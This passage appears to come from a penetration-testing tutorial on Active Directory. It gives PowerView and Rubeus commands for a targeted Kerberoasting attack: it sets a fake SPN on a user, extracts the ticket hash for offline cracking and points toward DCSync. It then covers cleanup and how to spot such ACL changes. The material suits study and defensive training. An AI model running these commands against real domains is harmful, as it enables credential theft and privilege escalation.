 Since we have GenericAll rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's servicePrincipalName attribute to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat. We can now use `Set-DomainObject` to create the fake SPN. We could use the tool `targetedKerberoast` to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

Reference: https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/

Reference: https://github.com/ShutdownRepo/targetedKerberoast

- **Creating a Fake SPN**
```
Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```

If this worked, we should be able to Kerberoast the user using any number of methods and obtain the hash for offline cracking. Let's do this with Rubeus.

- **Kerberoasting with Rubeus**
```
.\Rubeus.exe kerberoast /user:adunn /nowrap
```

Great! We have successfully obtained the hash. The last step is to attempt to crack the password offline using Hashcat. Once we have the cleartext password, we could now authenticate as the adunn user and perform the DCSync attack, which we will cover in the next section.

**Cleanup**
1. Remove the fake SPN we created on the adunn user.
2. Remove the damundsen user from the Help Desk Level 1 group
3. Set the password for the damundsen user back to its original value (if we know it) or have our client set it/alert the user

```
# Removing the Fake SPN from adunn's Account
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose

# Removing damundsen from the Help Desk Level 1 Group
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

# Confirming damundsen was Removed from the Group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

Reference: SDDL (Security Descriptor Definition Language) https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptor-definition-language. We can use the `ConvertFrom-SddlString` cmdlet to convert this to a readable format.

If we choose to filter on the DiscretionaryAcl property, we can see that the modification was likely giving the mrb3n user GenericWrite privileges over the domain object itself, which could be indicative of an attack attempt.

```
ConvertFrom-SddlString "<SDDL_STRING_HERE>" |select -ExpandProperty DiscretionaryAcl
```
